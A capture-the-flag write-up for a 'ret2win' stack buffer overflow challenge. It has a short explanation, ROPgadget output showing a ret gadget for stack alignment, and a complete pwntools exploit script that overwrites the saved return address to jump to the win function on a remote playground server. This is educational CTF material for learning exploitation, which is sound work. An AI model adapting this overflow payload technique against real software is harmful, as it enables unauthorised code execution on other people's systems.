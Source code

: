 ```yaml
---
description: Binary Exploitation
---
```


# ret2win

> _Buffer overflow di stack bisa kita gunakan untuk overwrite saved RIP. Kita bisa overwrite dengan alamat fungsi win untuk menjalankannya._
>
> _Author: zran_

{% file src="../../.gitbook/assets/ret2win1.zip" %}

Simple buffer overflow challenge, but the only roadblock for me was _stack alignment_ on the remote so i learned how to use ROPgadget to find a simple ret gadget to solve this.

```
$ ROPgadget --binary ret2win | grep 'ret'
...
0x000000000040118f : nop ; ret
...
```

This was the solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19000
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19000)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

ret = p64(0x40118f)
win = p64(0x401216)

payload = b'A' * 120
payload += ret
payload += win
log.info(payload)

log.info(io.clean())
io.sendline(payload)
log.info(io.clean())
io.interactive()
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
